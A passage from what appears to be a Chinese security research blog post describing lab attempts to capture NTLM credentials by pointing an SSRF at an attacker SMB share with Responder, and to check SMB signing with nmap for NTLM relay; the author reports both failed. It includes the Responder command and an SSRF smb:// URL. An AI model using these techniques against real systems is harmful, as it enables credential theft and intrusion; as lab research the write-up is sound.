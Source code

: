 然后选择虚拟硬盘的时候使用现有的，即官方下载的虚拟机文件 \*.vdi，即可直接导入 KaLi 虚拟机。

[![](assets/1701606471-195aa537a8305781d25fc6f6b60c1671.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143234-c003f54e-8cee-1.png)

修改网络为 Bridged(桥接），保证另一台 Windows 和 KaLi 在一个局域网里面。kaLI 已经内置 responder

```plain
sudo responder -I eth0 -dwv
```

不过很可惜，通过 SSRF 访问`http://192.168.0.117/ssrf.php?url=smb://192.168.0.123/share/1.txt` ，甚至根据官方给出的`curl`

[![](assets/1701606471-66756a41ded8710ff4885d45d3923ff5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143257-cd709d86-8cee-1.png)

Responder 一点反应都没有，`curl_error($ch)`也没有任何信息，一切看起来都静悄悄地，甚至我一度怀疑`smb`协议是一个摆设？

**2）NTLM 中继 失败！**

NTLM 中继成功的前提是 SMB 签名必须是未开启状态或者是禁用状态。

```plain
nmap --script=smb2-security-mode.nse -p445  192.168.0.114
```

SMB 签名除了域控其他系统默认都是不开启的，所以一开始我的想法很大胆，当然后面通过实验，验证很多想法是不成立的，一开始本是想着如果 1）成立可获得高权限凭证，那么直接 smb 中继自己/其他人，甚至可以超越 SSRF 实现命令执行，但是现连 NTLM 劫持都做不了，又谈何中继呢？失败！
